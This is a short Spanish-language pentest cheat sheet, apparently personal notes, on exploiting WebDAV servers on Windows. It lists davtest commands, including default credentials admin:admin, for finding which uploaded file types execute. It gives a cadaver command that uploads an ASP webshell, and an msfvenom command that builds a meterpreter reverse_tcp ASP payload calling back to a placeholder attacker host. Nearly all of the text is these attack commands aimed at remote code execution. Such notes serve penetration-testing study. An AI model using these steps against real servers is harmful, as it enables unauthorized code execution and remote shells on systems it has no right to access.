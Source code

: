 --------------
- tags: #web #windows #cadaver #davtest #fileupload #rce 
--------------

## davtest
> davtest sirve para hacer un chequeo sobre que extensiones de archivo se pueden subir y cuales son ejecutadas. Una vez tenemos esta información podemos usar cadaver para ganar RCE

	davtest -url http://x.x.x.x/webdav

	davtest -auth admin:admin -url http://x.x.x.x/webdav


## cadaver

	cadaver http://x.x.x.x/webdav
(Al ejecutar este comando nos pedirá el usuario y la contraseña)

	put /usr/share/webshells/asp/webshell.asp


## Payload con msfvenom

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=1234 -f asp -o shell.asp






